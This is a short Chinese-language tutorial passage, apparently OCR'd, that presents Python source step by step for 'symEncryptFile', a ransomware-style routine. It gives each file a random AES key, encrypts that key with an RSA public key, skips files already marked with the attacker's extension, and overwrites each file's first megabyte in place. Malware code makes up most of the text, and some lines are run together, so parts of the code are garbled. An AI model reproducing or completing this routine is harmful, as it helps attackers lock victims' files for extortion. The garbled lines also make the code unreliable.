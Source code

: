 ## SymEncryptFile

这将是主要的加密功能。事情是这样的:

1.  使用公钥和文件路径作为参数调用函数

```
def symEncryptFile(publicKey, file):
```

2.为这个特定文件生成一个随机密钥

```
key = generateKey()
```

3.用公钥加密随机密钥。

```
encriptedKey = rsaEncryptSecret(key, publicKey)
```

4.定义文件的加密大小(n 字节)。在本例中，我们将使用 1MB。

```
buffer_size = 1048576
```

5.检查文件是否已经加密，如果是，忽略它。

```
if file.endswith("." + cryptoName):
 print('File is already encrypted, skipping')
 return
```

6.加密文件的前 n 个字节并覆盖其内容。

```
# Open the input and output files
 input_file = open(file, 'r+b')
 print("Encrypting file: "+ file)
 output_file = open(file + '.' + cryptoName, 'w+b')# Create the cipher object and encrypt the data
 cipher_encrypt = AES.new(key, AES.MODE_CFB)# Encrypt file first
 input_file.seek(0)
 buffer = input_file.read(buffer_size)
 ciphered_bytes = cipher_encrypt.encrypt(buffer)input_file.seek(0)
input_file.write(ciphered_bytes)
```

![](img/3725e0ef3ce32fbb3bf817667bc1cd26.png)
